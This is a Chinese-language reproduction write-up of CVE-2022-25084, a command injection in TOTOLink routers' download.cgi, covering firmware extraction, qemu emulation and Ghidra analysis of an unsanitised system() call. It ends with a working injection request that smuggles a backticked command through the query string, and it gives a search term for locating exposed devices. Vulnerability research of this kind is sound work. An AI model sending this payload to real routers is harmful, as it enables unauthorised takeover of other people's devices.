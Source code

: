 # TOTOLink 多个设备 download.cgi 远程命令执行漏洞 CVE-2022-25084

## 漏洞描述

TOTOLink 多个设备 download.cgi文件存在远程命令执行漏洞，攻击者通过构造特殊的请求可以获取服务器权限

## 漏洞影响

<a-checkbox checked>TOTOLink 多个设备</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"totolink"</a-checkbox></br>

## 漏洞复现

下载路由器固件

![img](../../../.vuepress/public/img/1648907409606-0704b8c0-aa5c-44d4-9d45-9fd1c0c62736.png)

使用binwalk分解固件

![img](../../../.vuepress/public/img/1648907425761-dabc39f3-ac5e-483c-b446-4e7a3883afec.png)

查看分解出来的文件

![img](../../../.vuepress/public/img/1648907514313-7f8d3965-8435-484d-b67d-b04aae2da33e.png)

![img](../../../.vuepress/public/img/1648907561137-36b56f40-cc42-4c25-b53a-74554b0e5fa7.png)

使用qemu搭建路由器

```php
#set network
sudo brctl addbr virbr2
sudo ifconfig virbr2 192.168.6.1/24 up
sudo tunctl -t tap2
sudo ifconfig tap2 192.168.6.11/24 up
sudo brctl addif virbr2 tap2

qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1" -netdev tap,id=tapnet,ifname=tap2,script=no -device rtl8139,netdev=tapnet -nographic
```

创建后在qemu里执行命令启动路由器

```php
ifconfig eth0 192.168.6.11 up 
scp -r squashfs-root/ root@192.168.6.11:/root/    	
chroot ./squashfs-root/ /bin/sh
touch /var/run/lighttpd.pid
./bin/lighttpd -f ./lighttp/lighttpd.conf -m ./lighttp/lib
```

注意 **lighttpd.conf** 文件需要修改 **server.pid-file** 参数

![img](../../../.vuepress/public/img/1648908009576-87dcb518-213e-49cf-9a00-9f3c4d90e955.png)

启动后访问路由器页面

![img](../../../.vuepress/public/img/1648912800395-a085fc01-e97b-4044-bc06-fc5f894928f5.png)

我们找到需要分析的文件目录 **squashfs-root/web_cste/cgi-bin**

![img](../../../.vuepress/public/img/1648909334138-f28cf393-17e6-48a8-80f0-7a5288419e78.png)

使用Ghidra分析 cgi文件 **downloadFile.cgi**

![img](../../../.vuepress/public/img/1648910386798-e04871ca-ff36-4843-bb3d-2f382c078ed4.png)

我们注意到其中的system执行命令

```php
pcVar1 = getenv("QUERY_STRING");
memset(acStack1424,0,0x200);
memset(acStack912,0,0x200);
sprintf(acStack1424,"echo QUERY_STRING:%s >/tmp/download",pcVar1);
system(acStack1424);
```

其中 getenv 从请求Url中获取参数,传参给pcVar1，再通过下面的sprintf 赋值给 acStack1424 使用 system函数 进行命令执行

![img](../../../.vuepress/public/img/1648910646489-cfd02a84-6b04-4fb4-a4fa-dd3e007c045a.png)

我们构造请求包控制 QUERY_STRING 参数来进行恶意命令执行

```php
/cgi-bin/downloadFlile.cgi?payload=`ls>../cmd.txt`
```

![img](../../../.vuepress/public/img/1648912604072-692cfff6-164e-4724-9a10-f89b3b62dc79.png)

![img](../../../.vuepress/public/img/1648912691525-e03b2fc4-4cf4-46d7-a379-e31a80d0f2d6.png)